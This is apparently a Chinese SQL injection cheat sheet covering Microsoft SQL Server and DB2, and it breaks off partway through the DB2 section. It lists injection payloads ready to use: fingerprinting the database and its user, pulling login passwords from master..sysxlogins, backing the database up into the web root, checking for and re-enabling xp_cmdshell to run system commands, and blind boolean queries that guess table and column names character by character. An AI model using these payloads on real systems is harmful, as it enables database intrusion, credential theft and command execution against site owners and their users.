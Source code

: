 ##### 常用函数：

- 数据库表	master..syslogins, master..sysprocesses
- 列名	name, loginname
- 当前用户	user, system_user, suser_sname(), is_srvrolemember('sysadmin')
- 据库凭据	SELECT user, password FROM master.dbo.sysxlogins

##### 命令执行：

- 使用xp_cmdshell存储过程执行操作系统命令

##### 手工注入：

- 返回的是连接的数据库名

  and db_name()>0

- 作用是获取连接的用户名

  and user>0

- 将数据库备份到Web目录下面

  ;backup database 数据库名 to disk='C:\inetpub\wwwroot\1.db';-- 

- 显示SQL系统版本

  and 1=(select @@VERSION)或and 1=convert(int,@@version)-- 

- **判断xp_cmdshell扩展存储过程是否存在**

  and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')

- 回复xp_cmdshell扩展存储的命令

  ;exec master.dbo.sp_addextendedproc 'xp_cmdshell', 'E:\inetput\web\xplog70.dll';-- 

### DB2注入基础：

##### 手工注入：

以下均是是整型的注入，采用二分法猜解

- 猜用户表数量：

  and 0<(SELECT count(NAME) FROM SYSIBM.SYSTABLES where CREATOR=USER)

- 猜表长度：

  and 3<(SELECT LENGTH(NAME) FROM SYSIBM.SYSTABLES where name not in('COLUMNS') fetch first 1 rows only)

- 猜表第一个字符ASCII码：

  and 3<(SELECT ASCII(SUBSTR(NAME,1,1)) FROM SYSIBM.SYSTABLES where name not in('COLUMNS')fetch first 1 rows only)

- 猜表内列名数量：

  and 1<(SELECT COUNT(COLNAME) FROM SYSCAT.columns where TABNAME='TABLE')

- 猜第一个列名的长度：
